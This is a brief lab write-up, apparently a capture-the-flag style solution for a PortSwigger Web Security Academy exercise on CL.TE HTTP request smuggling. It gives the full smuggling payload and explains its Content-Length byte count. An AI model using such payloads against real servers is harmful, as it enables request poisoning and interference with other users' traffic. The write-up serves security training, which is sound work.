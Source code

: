 # HTTP request smuggling, basic CL.TE vulnerability
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method.\
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

# Solution
Payload:
```
POST / HTTP/1.1
Host: 0a5700f504b0a82a838c425c00b800fe.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

The `Content-Length: 6` number:
```
0\r\n       +3
\r\n        +2
G           +1
```

|![](Images/image.png)|
|:--:| 
| *First request* |
|![](Images/image-1.png)|
| *Second request* |
|![](Images/image-2.png)|
| *Second request with visible signs "\r" and "\n"* |